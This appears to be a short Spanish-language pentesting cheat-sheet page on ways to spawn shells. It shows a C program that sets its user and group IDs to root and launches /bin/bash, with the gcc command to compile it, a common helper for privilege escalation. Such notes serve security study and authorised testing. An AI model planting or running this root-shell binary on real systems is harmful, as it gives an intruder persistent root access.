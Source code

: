 # Introducción:
En está sección vamos a colocar todas aquellas formas o vias de realizar shells, en diferentes lenguajes y formas:

## Lenguaje C:
Generar fichero en C para despues compilarlo en un ELF.
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
    setuid(0);
    setgid(0);
    execl("/bin/bash", "bash", NULL);
    return 0;
}
```
- Compilarlo:
```
gcc file.c -o exec.elf
```

